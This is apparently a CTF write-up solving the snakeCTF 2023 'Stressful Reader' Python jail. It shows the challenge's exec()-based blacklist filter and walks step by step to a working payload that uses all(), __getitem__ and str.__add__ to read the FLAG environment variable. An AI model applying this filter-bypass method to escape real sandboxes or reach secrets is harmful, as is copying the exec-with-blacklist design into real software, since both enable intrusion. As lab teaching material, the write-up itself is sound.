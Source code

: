 ```yaml
---
title: snakeCTF - Stressful Reader
date: Mon Dec 11 09:13:56 PM +04 2023
categories: [Writeup]
tags: [ctf,snakectf,snakectf2023,misc,python,jail]
---
```


## Description

I want to read an env variable, but I'm getting stressed out because of that blacklist!!! Would you help me plz? :(

`nc misc.snakectf.org 1700`

Download: [jail.py](https://2023.snakectf.org/files/894de1d49cf2479c23b4c977c30ddda5/jail.py?token=eyJ1c2VyX2lkIjozOTYsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjMzM30.ZXcalA.9nQViELBJ-gITtN4YfYvXl2ElmI)

{::options parse_block_html="true" /}

Source: 
<details>
<summary markdown="span">jail.py</summary>

```py
#!/usr/bin/env python3
import os

banner = r"""
 _____ _                      __       _                       _
/  ___| |                    / _|     | |                     | |
\ `--.| |_ _ __ ___  ___ ___| |_ _   _| |   _ __ ___  __ _  __| | ___ _ __
 `--. \ __| '__/ _ \/ __/ __|  _| | | | |  | '__/ _ \/ _` |/ _` |/ _ \ '__|
/\__/ / |_| | |  __/\__ \__ \ | | |_| | |  | | |  __/ (_| | (_| |  __/ |
\____/ \__|_|  \___||___/___/_|  \__,_|_|  |_|  \___|\__,_|\__,_|\___|_|

"""


class Jail():
    def __init__(self) -> None:
        print(banner)
        print()
        print()
        print("Will you be able to read the $FLAG?")
        print("> ",end="")


        self.F = ""
        self.L = ""
        self.A = ""
        self.G = ""
        self.run_code(input())
        pass

    def run_code(self, code):

        badchars = [ 'c', 'h', 'j', 'k', 'n', 'o', 'p', 'q', 'u', 'w', 'x', 'y', 'z'
                   , 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N'
                   , 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W'
                   , 'X', 'Y', 'Z', '!', '"', '#', '$', '%'
                   , '&', '\'', '-', '/', ';', '<', '=', '>', '?', '@'
                   , '[', '\\', ']', '^', '`', '{', '|', '}', '~'
                   , '0', '1', '2', '3', '4', '5', '6', '7', '8', '9']


        badwords = ["aiter", "any", "ascii", "bin", "bool", "breakpoint"
                   , "callable", "chr", "classmethod", "compile", "dict"
                   , "enumerate", "eval", "exec", "filter", "getattr"
                   , "globals", "input", "iter", "next", "locals", "memoryview"
                   , "next", "object", "open", "print", "setattr"
                   , "staticmethod", "vars", "__import__", "bytes", "keys", "str"
                   , "join", "__dict__", "__dir__", "__getstate__", "upper"]


        if (code.isascii() and 
            all([x not in code for x in badchars]) and 
            all([x not in code for x in badwords])):

            exec(code)
        else:
            print("Exploiting detected, plz halp :/")

    def get_var(self, varname):
        print(os.getenv(varname))

if (__name__ == "__main__"):
    Jail()
```

</details>

{::options parse_block_html="false" /}

## Analysis

For more understanding of code I added following lines to checker, `debug print("anything")`:

```py
elif code.startswith('debug'):
	exec(code[6:])
```

We are given a python script with many limitation character wise. First lets determine what we can work with:

```py
import string

badchars = <snip>
badwords = <snip>

goodchars = [
    char
    for char in string.printable
    if char not in badchars
]

goodwords = [
    word
    for word in dir(__builtins__)
    if not any(badword in word for badword in badwords) and \
        not any(badchar in word for badchar in badchars)
]

print(f"{goodchars=}")
print(f"{goodwords=}")

'''
goodchars=['a', 'b', 'd', 'e', 'f', 'g', 'i', 'l', 'm', 'r', 's', 't', 'v', '(', ')', '*', '+', ',', '.', ':', '_', ' ', '\t', '\n', '\r', '\x0b', '\x0c']
goodwords=['abs', 'all', 'delattr', 'dir', 'id', 'list', 'reversed', 'set']
'''
```

Well, awfully limited methods/classes, no digits and square brackets. The goal of challenge is to get FLAG environment variable. Gracefully jail gives us `get_var` function, which gives us environment variables. The problem is we cant just pass `"FLAG"` because of blacklist.

Exploring the methods we have access to:

```py
goodwords.append('str') # While we cant use `str` class itself, we can use methods
for goodword in goodwords:
    for method in eval(f'dir({goodword})'):
        if any(badword in method for badword in badwords):
            continue
        if any(badchar in method for badchar in badchars):
            continue
        print(f'{goodword}.{method}')
```

{::options parse_block_html="true" /}

<details>
<summary markdown="span">Allowed Methods</summary>

```py
abs.__delattr__
abs.__ge__
abs.__gt__
abs.__le__
abs.__lt__
abs.__self__
all.__delattr__
all.__ge__
all.__gt__
all.__le__
all.__lt__
all.__self__
delattr.__delattr__
delattr.__ge__
delattr.__gt__
delattr.__le__
delattr.__lt__
delattr.__self__
dir.__delattr__
dir.__ge__
dir.__gt__
dir.__le__
dir.__lt__
dir.__self__
id.__delattr__
id.__ge__
id.__gt__
id.__le__
id.__lt__
id.__self__
list.__add__
list.__delattr__
list.__delitem__
list.__ge__
list.__getitem__
list.__gt__
list.__iadd__
list.__le__
list.__lt__
list.__reversed__
list.__setitem__
list.reverse
reversed.__delattr__
reversed.__ge__
reversed.__gt__
reversed.__le__
reversed.__lt__
reversed.__setstate__
set.__delattr__
set.__ge__
set.__gt__
set.__le__
set.__lt__
set.add
str.__add__
str.__delattr__
str.__ge__
str.__getitem__
str.__gt__
str.__le__
str.__lt__
str.isdigit
str.istitle
str.title
```

</details>

{::options parse_block_html="false" /}

Now, how to get string FLAG? We see empty strings called `F, L, A, G` in the `__init__` and we can make use of that.

```py
> debug print(dir(self))
['A', 'F', 'G', 'L', '__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'get_var', 'run_code']
```

Now we need to extract the letters, but how?

After lots of testing I managed to get 0 and 1 using `all`

```
ZERO = 'all(((),))' # all with tuple that has tuples (notice the comma)
ONE  = 'all(())'    # all with empty tuple
```

Hmm.. but we can't use square brackets `[]`. `[]` is just a dunder (magic) method which uses `__getitem__` under the hood and we have access to it.

```py
> debug print(dir(self).__getitem__(0)) 
A
> debug print(dir(self).__getitem__(all(((),)))) # ZERO 
A
```

Good, we can extract items from the class, but how do we concatenate?

<!-- I swear to old and new gods one day I'll learn how to type 'concatenate' without googling! -->

Looking over the methods we can use I noticed `str.__add__` 👀 Interesting...

```py
> debug print("".__add__("Test")) 
Test
> debug print("".__add__("Test").__add__("What")) 
TestWhat
```

To be honest this was awesome discovery D: (for me)<br>
Anyways, we have a way to concat strings!

## Solution

Idea:
- Get a character (str) from class instance (self) using `dir(self)`
- Use `__add__` to add new character (concat)
- Complete flag (Use correct indexes to assemble the flag)
- Pass the completed string to `self.get_var`
- Profit

```py
ZERO = 'all(((),))'
ONE = 'all(())'

def numberify(number):
    if number == 0: return ZERO
    return '+'.join([ONE] * (number))

def values():
    return 'dir(self)'

def get_value(index):
    return f'{values()}.__getitem__({numberify(index)})'

def flag():
    return (
        get_value(1), # F
        get_value(3), # L
        get_value(0), # A
        get_value(2), # G
    )

def payload():
    f, l, a, g = flag()
    result  = f'self.get_var({f}'
    result += f'.__add__({l})'
    result += f'.__add__({a})'
    result += f'.__add__({g})'
    result += ')'
    return result

print(payload())

'''
self.get_var(dir(self).__getitem__(all(())).__add__(dir(self).__getitem__(all(())+all(())+all(()))).__add__(dir(self).__getitem__(all(((),)))).__add__(dir(self).__getitem__(all(())+all(()))))
'''
```

```py
➜ ncat misc.snakectf.org 1700

 _____ _                      __       _                       _
/  ___| |                    / _|     | |                     | |
\ `--.| |_ _ __ ___  ___ ___| |_ _   _| |   _ __ ___  __ _  __| | ___ _ __
 `--. \ __| '__/ _ \/ __/ __|  _| | | | |  | '__/ _ \/ _` |/ _` |/ _ \ '__|
/\__/ / |_| | |  __/\__ \__ \ | | |_| | |  | | |  __/ (_| | (_| |  __/ |
\____/ \__|_|  \___||___/___/_|  \__,_|_|  |_|  \___|\__,_|\__,_|\___|_|

Will you be able to read the $FLAG?
> self.get_var(dir(self).__getitem__(all(())).__add__(dir(self).__getitem__(all(())+all(())+all(()))).__add__(dir(self).__getitem__(all(((),)))).__add__(dir(self).__getitem__(all(())+all(()))))
snakeCTF{7h3_574r_d1d_7h3_j0b}
```

> Flag: snakeCTF{7h3_574r_d1d_7h3_j0b}
{: .prompt-tip }

> The flag in humanly readable format is: `snakeCTF{ThE_STAr_dId_ThE_jOb}`, which means this is probably unintended solution D:
> <br>No idea how to use `*` to profit, most likely its `unpacking` feature.
{: .prompt-info }